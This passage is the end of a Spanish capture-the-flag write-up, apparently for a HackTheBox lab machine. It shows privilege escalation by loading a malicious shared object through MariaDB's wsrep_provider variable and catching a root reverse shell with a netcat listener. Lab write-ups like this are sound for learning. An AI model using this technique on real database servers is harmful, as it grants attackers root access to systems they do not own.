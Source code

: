 Nos conectamos a MySQL tal y como nos indican en la explicación del exploit:
> mysql -u root -p -h 127.0.0.1 -e 'SET GLOBAL wsrep_provider="/tmp/any0ne/exploit.so";'

Sin embargo esto nos da error porque no tenemos permisos, tenemos que realizar este paso como el usuario **`zabbix`**
Nos ponemos en escucha en nuestra máquina con netcat antes de realizar este paso.

```console
ipmi-svc@shibboleth:/tmp/any0ne$ mysql -u zabbix -p
Enter password: bloooarskybluh
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 89577
Server version: 10.3.25-MariaDB-0ubuntu0.20.04.1 Ubuntu 20.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> SET GLOBAL wsrep_provider="/tmp/any0ne/exploit.so";
ERROR 2013 (HY000): Lost connection to MySQL server during query
MariaDB [(none)]> 
```

```console
p3ntest1ng:~$ nc -nlvp 9999
listening on [any] 9999 ...
connect to [10.10.16.29] from (UNKNOWN) [10.10.11.124] 60162
whoami && id
root
uid=0(root) gid=0(root) groups=0(root)
find / -type f -name root.txt
/root/root.txt
cat /root/root.txt
d9c18975fc2140ec3bd093291c797c4c
```

### ¡Gracias por leer hasta el final!

Una máquina interesante con cosas que no había visto hasta ahora, como por ejemplo el uso de IPMI y Zabbix.
La escalada de privilegios resultó bastante simple y es la parte que menos me ha gustado de la máquina.

#### Nos vemos en un próximo. ¡Feliz hacking! ☠